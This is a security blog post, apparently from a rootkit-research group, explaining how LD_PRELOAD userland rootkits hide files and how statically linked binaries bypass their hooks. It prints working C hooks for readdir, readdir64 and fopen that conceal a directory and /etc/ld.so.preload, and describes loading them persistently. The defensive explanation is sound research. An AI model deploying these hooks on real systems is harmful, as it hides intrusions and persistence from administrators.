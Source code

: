 ```yaml
---
title: "Bypassing LD_PRELOAD Rootkits Is Easy"
date: 2025-05-14T19:42:06-04:00
draft: true
---
```


## Introduction

In this post, I'm going to get into a really cool topic, which is how to bypass the hooks used by LD_PRELOAD rootkits, a technique that is effective against most, if not all, of them.

##  LD_PRELOAD

`LD_PRELOAD` is an environment variable used by dynamic linkers on Unix-like systems (such as /lib64/ld-linux-x86-64.so.2 on x86_64 Linux) to force specific shared libraries to be loaded before any others during program execution.

This technique allows you to "hook" functions from standard libraries, such as libc, without modifying the program binary, and is therefore widely used both for debugging and for offensive techniques such as user space rootkits.

When an ELF binary is executed, the dynamic linker resolves external function calls using structures like the Procedure Linkage Table (PLT) and Global Offset Table (GOT). By preloading a custom library via LD_PRELOAD, attackers can override functions like readdir() or fopen().

Example:

```bash
LD_PRELOAD=./rootkitresearchers.so ls
```

> /etc/ld.so.preload  

Besides the environment variable, the /etc/ld.so.preload file can also be used to persistently load a library into all processes on the system (including root). This file is read before any environment variable.

## Installing and Hiding Directory with Rootkit

To demonstrate this, I'll use a simple LD_PRELOAD rootkit that hooks the `readdir`, `readdir64`, and `fopen` functions to change the behavior of file and directory listings. The  code is shown below.

[Full source](https://github.com/MatheuZSecurity/Rootkit/blob/main/Ring3/hiding-directory/hide.c)

```c
struct dirent *(*orig_readdir)(DIR *dirp);
struct dirent *readdir(DIR *dirp)
{
    if (!orig_readdir)
        orig_readdir = dlsym(RTLD_NEXT, "readdir");

    struct dirent *entry;
    while ((entry = orig_readdir(dirp)) != NULL) {
        if (strcmp(entry->d_name, HIDDEN_DIR) != 0 && strcmp(entry->d_name, HIDDEN_FILE) != 0) {
            return entry;
        }
    }
    return NULL;
}
```

This snippet above hooks into the readdir function, which is responsible for listing files in a directory. It uses a pointer orig_readdir to store the address of the original function, retrieved with dlsym(RTLD_NEXT, "readdir"). Then, in a loop, it calls the original function to get each entry in the directory, but filters out (ignores) entries whose name is equal to "secret" or "ld.so.preload". Thus, these entries never appear to the program that called readdir. When there are no more visible entries, it returns NULL.

```c
struct dirent64 *(*orig_readdir64)(DIR *dirp);
struct dirent64 *readdir64(DIR *dirp)
{
    if (!orig_readdir64)
        orig_readdir64 = dlsym(RTLD_NEXT, "readdir64");

    struct dirent64 *entry;
    while ((entry = orig_readdir64(dirp)) != NULL) {
        if (strcmp(entry->d_name, HIDDEN_DIR) != 0 && strcmp(entry->d_name, HIDDEN_FILE) != 0) {
            return entry;
        }
    }
    return NULL;
}
```

This is the same logic but for the 64-bit version readdir64.

```c
FILE *(*orig_fopen)(const char *pathname, const char *mode);
FILE *fopen(const char *pathname, const char *mode)
{
    if (!orig_fopen)
        orig_fopen = dlsym(RTLD_NEXT, "fopen");

    if (strstr(pathname, HIDDEN_FILE) != NULL) {
        errno = ENOENT;
        return NULL;
    }

    return orig_fopen(pathname, mode);
}
```

This fopen hook hides access to specific files by returning a ‘file not found’ error (ENOENT) if the path contains keywords like ‘ld.so.preload’.

Now let's compile and load it into `/etc/ld.so.preload`

![imgur](https://i.imgur.com/9Id2UUt.png)

Once loaded, we can test creating a directory named `secret`, and see if it is hidden from ls.

![imgur](https://i.imgur.com/NAUR8Nl.png)

![imgur](https://i.imgur.com/inkluye.png)

As expected, it was hidden from ls.

## [Theory] Breaking LD_PRELOAD rootkits

Here’s something interesting: rootkits that use the LD_PRELOAD technique depend ENTIRELY on the Linux dynamic loader (ld-linux.so) to "inject" their malicious libraries before the standard system libraries, such as libc. But does this work with all programs? 

The short and quick answer is: No!

> Why does LD_PRELOAD work, and why does it sometimes not work?

LD_PRELOAD, as explained in previous topics, is an environment variable used by ld-linux.so to load extra libraries before others, which allows it to intercept functions from standard libraries (such as libc). In other words, you can replace system functions, such as those that list files or open files, with customized versions, which is perfect for hiding directories or files, for example.

But for this to work, the program has to use dynamic loading and depend on ld-linux.so to resolve these functions.

> Why do static binaries break this idea?

Statically linked binaries are "self-contained". They incorporate all necessary code from their dependencies (such as libc) directly into the executable. As a result, they do not invoke the dynamic linker at runtime, so LD_PRELOAD and /etc/ld.so.preload are ignored.

In other words, LD_PRELOAD and the /etc/ld.so.preload file are simply not used by these binaries. This means that rootkits based on these techniques have no effect on them, practically useless.

This is one of the most effective ways to bypass these rootkits.

## [Practice] Breaking LD_PRELOAD rootkits

With the rootkit loaded in /etc/ld.so.preload, the secret directory is hidden from commands like ls, which depend on libc and the dynamic loader. 

But it is easy to bypass this, for example: just compile a static binary, like a simple [getdents64.c](https://raw.githubusercontent.com/finallyjustice/sample/refs/heads/master/c/getdents64.c)

> gcc getdents64.c -o getdents64 --static

When using ldd getdents64, we will see that it does not load any dynamic dependencies, unlike ldd /bin/ls, which depends on libc. Since static binaries do not use the dynamic linker, LD_PRELOAD is completely ignored, and so is the rootkit.

![imgur](https://i.imgur.com/fv0N05S.png)

Bypassing LD_PRELOAD rootkits is simply very easy.

## Conclusion

LD_PRELOAD rootkits are actually very good at hiding artifacts in user space, especially because of their simplicity and the fact that they are more stable than LKM rootkits. However, as we have shown in this post, they are not infallible. Simple techniques, such as the use of static binaries, can easily bypass the hooks applied by the rootkit, precisely because they do not depend on the dynamic loader and the external libc.

If you enjoyed this content and want to discuss similar techniques, feel free to join our Discord community. See you next time!

> Rootkit Researchers

> https://discord.gg/66N5ZQppU7